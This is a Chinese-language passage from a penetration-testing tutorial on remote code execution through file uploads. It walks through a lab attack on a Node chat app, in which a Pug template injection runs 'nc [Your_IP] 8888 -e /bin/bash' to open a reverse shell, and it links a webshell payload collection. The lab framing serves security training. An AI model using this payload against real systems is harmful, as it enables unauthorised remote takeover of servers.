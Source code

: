 

### JavaScript 和远程代码执行

远程代码执行是我们在每次入侵和 Web 应用程序渗透测试中必须寻找的。虽然 RCE 几乎可能在任何地方找到，但它们最常见于允许上传的地方，例如：上传 web shell，一个像 [Imagetragick](https://imagetragick.com/) 这样的漏洞利用，使用 Office 文件进行 XXE 攻击，基于遍历的目录上传以替换关键文件等。

传统来说，我们可能会尝试找到我们可以使用的上传区域和 shell。可以在此处找到不同类型的 webshell payload 的绝佳列表：https://github.com/tennc/webshell 。请注意，我绝不会审查任何这些 shell 是否存在后门，所以使用它们需要你自担风险。我遇到过很多有后门的 shell。

**使用上传攻击对聊天应用程序进行攻击**

在我们的实验室中，我们将在 Node 应用程序上执行上传 RCE。在我们的示例中，有一个文件上传功能，允许任何文件上传。不幸的是，使用 Node，我们不能只通过 Web 浏览器调用文件来执行文件，就像在 PHP 中一样。因此，在这种情况下，我们将使用动态路由端点尝试呈现 Pug 文件的内容。错误在于端点将读取文件的内容，假设它是 Pug 文件，因为默认目录存在于 Views 目录中。此端点上还存在路径遍历和本地文件读取漏洞。
 
 ![](img/3-34.png)

在上传过程中，文件处理程序模块会将文件重命名为随机字符串，没有扩展名。在页面的上传响应内容中，存在上载文件的服务器路径位置。使用这些信息，我们可以使用/drouting 执行模板注入以实现远程代码执行。

既然我们知道底层应用程序是 Node(JavaScript)，我们可以上传什么样的 payload 来才能被 Pug 执行？回到我们之前使用的简单示例：
* 首先，为 require 模块分配一个变量
    * `-var x = global.process.mainModule.require`
* 使用子进程模块使我们能够通过运行任何系统命令来访问操作系统功能：
    * `-x('child_process').exec('nc [Your_IP] 8888 -e /bin/bash')`

RCE 上传攻击：

* 转到 http://chat:3000 并使用任何有效帐户登录
* 使用以下信息上传文本文件。在 Pug 中，“-”字符表示执行 JavaScript。
    * `-var x = global.process.mainModule.require`
    * `-x('child_process')。exec('nc [Your_IP] 8888 -e / bin / bash')`
* 通过上传文件查看 Burp 中的请求和响应。你将注意到在响应 POST 请求中上传的文件的哈希值以及引用的 drouting。

 ![](img/3-35.png)
